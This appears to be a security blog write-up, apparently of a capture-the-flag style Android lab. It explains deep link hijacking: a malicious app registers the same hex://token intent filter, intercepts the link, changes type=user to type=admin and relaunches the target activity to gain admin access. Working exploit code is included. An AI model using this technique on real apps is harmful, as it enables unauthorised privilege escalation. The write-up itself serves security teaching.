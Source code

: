 ```yaml
---
layout: post
title: How I Gained Admin Access Through DeepLink Hijacking
date: 2025-03-14 20:53 +0200
catgeories: Mobile
tags: Android Mobile
---
```


Hello everyone! Today, I’ll walk you through how to exploit a DeepLink hijacking vulnerability to gain admin access.<br>
Let’s dive right in.

## Step 1: Analyzing the AndroidManifest
While reviewing the `AndroidManifest.xml`, I noticed an `exported` activity with the following BROWSABLE intent filter:
```java
<intent-filter>  
    <action android:name="android.intent.action.VIEW" />  
    <category android:name="android.intent.category.DEFAULT" />  
    <category android:name="android.intent.category.BROWSABLE" />  
    <data  
        android:scheme="hex"  
        android:host="token" />  
</intent-filter>
```
This exported activity allows external applications or browsers to interact with it using the `hex://token` scheme and host combination.
## Step 2: Reviewing the Source Code
Here’s the relevant snippet of the activity’s code:
```java
  public void onCreate(Bundle bundle) {  
    super.onCreate(bundle);  
    Intent intent = getIntent();  
    if (intent == null || intent.getAction() == null) {  
        finish();  
        return;  
    }  

    if (intent.getAction().equals("android.intent.action.VIEW")) {  
        Uri data = intent.getData();  
        String type = data.getQueryParameter("type");  
        String authToken = data.getQueryParameter("authToken");  
        String authChallenge = data.getQueryParameter("authChallenge");  
        String savedChallenge = SolvedPreferences.getString(getPrefixKey("challenge"));  

        if (type == null || authToken == null || authChallenge == null || !authChallenge.equals(savedChallenge)) {  
            Toast.makeText(this, "Invalid login", Toast.LENGTH_SHORT).show();  
            finish();  
            return;  
        }  

        if (type.equals("user")) {  
            Toast.makeText(this, "User login successful", Toast.LENGTH_SHORT).show();  
        } else if (type.equals("admin")) {  
            Log.i("Flag14", "hash: " + authToken);  
            Toast.makeText(this, "Admin login successful", Toast.LENGTH_SHORT).show();  
            success(this);  
        }  
    }  
}
```
### Key takeaways from the code:
- The `type`, `authToken`, and `authChallenge` parameters are validated.
- A specific `authChallenge` must match a saved value to proceed.
- If the `type` parameter is set to `"admin"` and the hash of `authToken` matches a predefined value, admin login is granted.

## Step 3: Crafting the Exploit
To exploit this vulnerability, I created an attack application with the same intent filter in its **AndroidManifest.xml:**
```java
<intent-filter>  
    <action android:name="android.intent.action.VIEW" />  
    <category android:name="android.intent.category.DEFAULT" />  
    <category android:name="android.intent.category.BROWSABLE" />  
    <data  
        android:scheme="hex"  
        android:host="token" />  
</intent-filter>
```
This allows my application to intercept the DeepLink.

## Initial Exploit Attempt
Here’s the initial code I used to send an intent via the application’s DeepLink:
```java
protected void onCreate(Bundle savedInstanceState) {  
    super.onCreate(savedInstanceState);  
    setContentView(R.layout.activity_main);  

    ((Button) findViewById(R.id.btn_launch_activity)).setOnClickListener(new View.OnClickListener() {  
        @Override  
        public void onClick(View v) {  
            Intent intent = new Intent();  
            intent.setClassName("com.example", "com.example.connectProperty");  
            startActivity(intent);  
        }  
    });  
}
```
Upon inspecting the intent data, I found a parameter called `type=user`. 
This parameter defines the user’s role:

![](https://miro.medium.com/v2/resize:fit:1062/format:webp/1*53tEwJoEQpkO6MCNj1WsUA.png)

## Exploiting the Vulnerability
What happens if we replace `type=user` to `type=admin`? 🤔

Here’s the final exploit code:
```java
if (intent.getAction().equals("android.intent.action.VIEW")) {  
    Uri data = intent.getData();  
    if (data != null && data.getScheme().equals("hex") && data.getHost().equals("token")) {  
        Intent newIntent = new Intent();  
        newIntent.fillIn(intent, Intent.FILL_IN_DATA | Intent.FILL_IN_ACTION | Intent.FILL_IN_CATEGORIES);  
        newIntent.setClassName("com.example", "com.example.connectProperty");  
        newIntent.setData(Uri.parse(newIntent.getDataString().replace("type=user", "type=admin")));  

        startActivity(newIntent);  
    }  
}
```
By replacing `type=user` with `type=admin` in the DeepLink, I successfully gained admin privileges! 🎉
![](https://miro.medium.com/v2/resize:fit:632/format:webp/1*6VS8_Rk8iYBxPQmvR7CdAQ.png)

## Final Thoughts
This exercise highlights the importance of securely validating input parameters in DeepLink handlers. Improper validation or overly permissive exported activities can lead to severe vulnerabilities like privilege escalation.

**THANKS FOR READING ❤️**

<script src="https://giscus.app/client.js"
        data-repo="0xk3r0/0xk3r0.github.io"
        data-repo-id="R_kgDOOGw3bQ"
        data-category="General"
        data-category-id="DIC_kwDOOGw3bc4CobRY"
        data-mapping="pathname"
        data-strict="0"
        data-reactions-enabled="1"
        data-emit-metadata="0"
        data-input-position="bottom"
        data-theme="dark"
        data-lang="en"
        crossorigin="anonymous"
        async>
</script>

